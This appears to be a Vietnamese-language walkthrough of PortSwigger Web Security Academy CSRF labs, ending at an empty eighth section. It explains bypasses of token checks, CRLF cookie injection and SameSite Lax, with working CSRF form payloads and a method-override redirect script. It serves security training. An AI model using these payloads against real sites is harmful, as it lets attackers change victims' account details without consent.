








# CSRF lab

### 1. CSRF vulnerability with no defenses
https://portswigger.net/web-security/csrf/lab-no-defenses

Đăng nhập vào `wiener:peter` sau đó thay đổi email, do việc này không có csrf token cũng không có xác thực mật khẩu nên ta tạo form rồi gửi cho `carlos`

---

### 2. CSRF where token validation depends on request method
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

Context: ở đây khi dùng POST để đổi email thì cần có thêm `csrf` token, nhưng khi đổi sang GET thì không cần `csrf` token


Từ đây ta tạo csrf form để gửi đi. 

---

### 3. CSRF where token validation depends on token being present
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

Ở bài này việc xóa đi csrf token trong POST không ảnh hưởng đến kết quả.


Từ đây ta tạo payload.

---

### 4. CSRF where token is not tied to user session
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

Context: 

1. Csrf token ảnh hưởng đến xử lý, không thể xóa, hay sử dụng trùng nhau
2. Email trùng với tài khoản khác sẽ không hợp lệ, dẫn đến các lần thay đổi sau đó sẽ ko được do csrf token không thay đổi mỗi phiên đăng nhập nên chỉ sử dụng được 1 lần

Nhưng ở đây khi lấy csrf token của phiên đăng nhập của Carlos để gửi với change-email của weiner thì vẫn thành công do chưa sử dụng lần nào và nó tạo ra cho 1 phiên.\






Từ đây ta đăng nhập 1 tài khoản và lấy csrf token cho phiên đó để gửi cho victim.

---

### 5. CSRF where token is tied to non-session cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

Context:

1. Khi update thì sẽ có cookie `csrfKey` và `csrf` token ở form, và 2 cái này tồn tại theo cặp, dù đổi người dùng thì nếu thay đổi cả 2 giá trị này theo cặp thì vẫn có thể request thành công. 

=> Ta cần đổi cookie `csrfKey` của victim và rồi từ đó có thể dùng `csrf` token của mình

Mặt khác, khi dùng chức năng search, thông tin sẽ được phản hồi ở `Set-cookie` ở response, vậy nên ta sẽ cố gắng chèn thêm `Set-cookie` ở response bằng cách dùng `%0d%0a` là `\r\n`:



Payload: 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aec003503cf58e580948f3d0053007b.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="4ZTQjukf9UX8toqgbTThbm8F16k9F2jO" />
        <input type="submit" value="Submit request" />
    </form>


    
  </body>
</html>
```

---

### 6. CSRF where token is duplicated in cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

Context: Bài này `csrf` token sẽ trùng với `csrf` cookie

Vẫn tương tự bài trước thì `Search` sẽ được thể hiện qua cookie

Ta sẽ chỉ cần tạo 1 fake csrf token và csrf cookie giống nhau ở phía victim:

Payload:

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="XBeN2PtpvYuFiueM15QTTYjQu37nWczz" />
        <input type="submit" value="Submit request" />
    </form>


    
  </body>
</html>
```

---

### 7. SameSite Lax bypass via method override
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

Context: Cần bypass `Samesite: Lax`



Ở phần change-email thì không có sự xuất hiện của csrf token, nhưng khi attack theo kiểu truyền thống thì không thành công, có thể do cần thêm cookie để xác nhận. 



Mặt khác, cookie được tạo và không đặt `Samesite` nên mặc định nó là `Lax`. Với Lax cookie chỉ được include vào request khi đó là `GET` và đến 1 URL cấp cao hơn.

Nhưng khi chuyển qua `GET` nó đang không cho phép request:\


Thêm parameter `_method=POST` (ghi đè method) thì nó thành công:\


Payload: 
```js
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

Tham khảo cách khác để ghi đè method: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/

---

### 8. SameSite Strict bypass via client-side redirect
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect


